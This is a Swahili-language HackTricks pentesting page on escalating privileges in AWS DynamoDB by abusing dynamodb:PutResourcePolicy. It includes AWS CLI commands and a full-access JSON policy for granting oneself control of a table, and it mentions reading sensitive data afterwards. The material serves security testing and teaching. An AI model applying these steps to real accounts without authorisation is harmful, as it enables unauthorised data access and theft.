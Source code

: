 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Kwa maelezo zaidi kuhusu dynamodb angalia:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, na kwa hiari `dynamodb:GetResourcePolicy`

Tangu Machi 2024, AWS inatoa *sera za msingi wa rasilimali* kwa ajili ya DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Hivyo, ikiwa una `dynamodb:PutResourcePolicy` kwa meza, unaweza kujipa wewe mwenyewe au mtu mwingine yeyote ufikiaji kamili kwa meza hiyo.

Kutoa `dynamodb:PutResourcePolicy` kwa mtu yeyote wa bahati nasibu mara nyingi hutokea kwa bahati mbaya, ikiwa wasimamizi wanafikiri kwamba kutoa `dynamodb:Put*` kutaruhusu tu mtu huyo kuweka vitu kwenye hifadhidata - au ikiwa walitoa ruhusa hiyo kabla ya Machi 2024...

Kwa kawaida, unapaswa pia kuwa na `dynamodb:GetResourcePolicy`, ili usifute ruhusa nyingine muhimu, bali tu uweke ruhusa za ziada unazohitaji:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Ikiwa huwezi kupata sera ya sasa, tumia hii ambayo inatoa ufikiaji kamili juu ya jedwali kwa mhusika wako:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Ikiwa unahitaji kuiboresha, hapa kuna orodha ya vitendo vyote vinavyowezekana vya DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Na hapa kuna orodha ya vitendo vyote vinavyoweza kuruhusiwa kupitia sera ya msingi ya rasilimali *NA ni yapi kati ya haya yanaweza kutumika kati ya akaunti (fikiria kuhusu uhamasishaji wa data!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Sasa, ikiwa hati ya sera `policy.json` iko tayari, weka sera ya rasilimali:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Sasa, unapaswa kuwa na ruhusa ulizohitaji.

### Post Exploitation

Kuhusu ninavyojua, **hakuna njia nyingine ya moja kwa moja ya kupandisha ruhusa katika AWS kwa kuwa na ruhusa za AWS `dynamodb`**. Unaweza **kusoma taarifa nyeti** kutoka kwa meza (ambazo zinaweza kuwa na akauti za AWS) na **kuandika taarifa kwenye meza** (ambazo zinaweza kusababisha udhaifu mwingine, kama vile sindano za msimbo wa lambda...) lakini chaguzi hizi zote tayari zinachukuliwa katika **ukurasa wa DynamoDB Post Exploitation**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Soma data kwa kutumia data Streams

{{#include ../../../banners/hacktricks-training.md}}
